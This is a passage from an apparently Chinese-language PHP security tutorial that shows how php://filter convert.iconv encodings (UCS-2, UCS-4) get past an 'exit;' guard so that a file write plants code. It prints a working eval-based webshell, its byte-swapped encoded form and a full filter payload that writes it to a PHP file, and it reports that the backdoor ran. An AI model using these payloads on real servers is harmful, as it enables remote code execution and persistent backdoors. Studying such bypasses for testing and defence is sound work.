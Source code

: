 <a class="reference-link" name="convert.iconv.*"></a>**convert.iconv.***

关于`convert.iconv.*`的详细介绍可以看上面对php://filter的介绍。

对于iconv字符编码转换进行绕过的手法，其实类似于上面所述的base64编码手段，都是先对原有字符串进行某种编码然后再解码，这个过程导致最初的限制`exit;`去除，而我们的恶意代码正常解码存储。

<a class="reference-link" name="UCS-2"></a>**UCS-2**

UCS-2编码转换

```
php &gt; echo iconv("UCS-2LE","UCS-2BE",'&lt;?php @eval($_POST[Qftm]);?&gt;');

?&lt;hp pe@av(l_$OPTSQ[tf]m;)&gt;?

&gt;&gt;&gt; len("&lt;?php @eval($_POST[Qftm]);?&gt;")
28 -&gt; 2*14
&gt;&gt;&gt;
```

通过UCS-2方式，对目标字符串进行2位一反转（这里的2LE和2BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-2中2的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了
- 构造payload
```
a=php://filter/convert.iconv.UCS-2LE.UCS-2BE|?&lt;hp pe@av(l_$OPTSQ[tf]m;)&gt;?/resource=Qftm.php

合并的payload：
&lt;?php exit();php://filter/convert.iconv.UCS-2LE.UCS-2BE|?&lt;hp pe@av(l_$OPTSQ[tf]m;)&gt;?/resource=Qftm.php

核心部分：
&lt;?php exit();php://filter/convert.iconv.UCS-2LE.UCS-2BE|?&lt;hp pe@av(l_$OPTSQ[tf]m;)&gt;?

&gt;&gt;&gt; len("&lt;?php exit();php://filter/convert.iconv.UCS-2LE.UCS-2BE|?&lt;hp pe@av(l_$OPTSQ[tf]m;)&gt;?")
84 -&gt; 2*42
&gt;&gt;&gt;

```
- 载荷效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010c2bfa2130833058.png)

从请求和服务器查看结果可以看到构造的payload执行传入恶意代码后门webshell成功。

<a class="reference-link" name="UCS-4"></a>**UCS-4**

UCS-4编码转换

```
php &gt; echo iconv("UCS-4LE","UCS-4BE",'&lt;?php @eval($_POST[Qftm]);?&gt;');

hp?&lt;e@ p(lavOP_$Q[TS]mtf&gt;?;)

&gt;&gt;&gt; len("&lt;?php @eval($_POST[Qftm]);?&gt;")
28 -&gt; 4*7
&gt;&gt;&gt;
```
